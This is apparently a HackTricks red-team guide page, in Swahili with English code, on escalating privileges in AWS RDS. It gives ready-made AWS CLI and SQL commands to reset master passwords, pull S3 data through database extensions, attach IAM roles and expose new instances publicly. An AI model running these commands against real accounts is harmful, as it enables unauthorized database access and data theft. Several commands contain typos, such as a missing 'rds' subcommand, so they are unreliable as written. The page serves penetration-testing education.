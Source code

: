 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa maelezo zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuwa na uwezo wa **kuwasiliana na hifadhidata** (zinapatikana kwa kawaida tu kutoka ndani ya mitandao).
{% endhint %}

**Athari Zinazoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye ruhusa hii anaweza kuungana na mfano wa DB.

### Kunyanyasa Ruhusa za RDS Role IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** unapata hifadhidata inayoitwa **`rdsadmin`** unajua uko ndani ya **hifadhidata ya AWS postgresql**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa hifadhidata hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hii kwa kutazama nyongeza zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa za kukimbia **`aws rds describe-db-clusters`** unaweza kuona huko ikiwa **klasta ina IAM Role yoyote iliyoambatanishwa** katika uwanja **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilikuwa **imeandaliwa kufikia huduma nyingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu) unaweza **kukisia** ni ufikiaji gani wa ziada hifadhidata ina.

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **raw AWS credentials** unaweza pia kuzitumia kufikia data ya S3 kwa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haitaji kubadilisha chochote katika kikundi cha vigezo** ili kuweza kufikia S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ukikimbia swali **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql kimbia **`show variables;`** na ikiwa vigezo kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, vina thamani, unaweza kudhani hifadhidata imeandaliwa kufikia data za S3.

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa klasta ina **jukumu lolote lililounganishwa**, ambalo kwa kawaida linamaanisha ufikiaji wa huduma za AWS).

Sasa, ili **kusoma faili ndani ya bakuli** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililobainishwa kwenye mfano wa RDS uliopo**. Hii inaweza kumwezesha mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya mfano huo.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.\
Kumbuka kwamba baadhi ya DB zinahitaji mipangilio ya ziada kama Mysql, ambayo inahitaji kubainisha ARN ya jukumu katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu mshambuliaji anaweza kuunda **instance mpya ndani ya klasta** ambayo tayari ipo na ina **IAM role** iliyounganishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kuwa na uwezo wa kufichua instance mpya ya database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Jaribu
{% endhint %}

Mshambuliaji mwenye ruhusa `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda mfano mpya wa RDS wenye jukumu lililounganishwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kubadilisha data ndani ya mfano huo.

{% hint style="warning" %}
Mahitaji mengine ya jukumu/profili ya mfano kuunganishwa (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profaili lazima iwepo katika akaunti yako.
* Profaili lazima iwe na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kulichukua.
* Jina la profaili ya mfano na jina la jukumu la IAM lililounganishwa lazima ianze na kiambishi `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililotajwa kwenye RDS instance iliyopo**. Hii inaweza kumwezesha mshambuliaji **kufikia data nyeti** au kubadilisha data ndani ya instance hiyo.

{% hint style="warning" %}
DB instance lazima iwe nje ya kundi kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
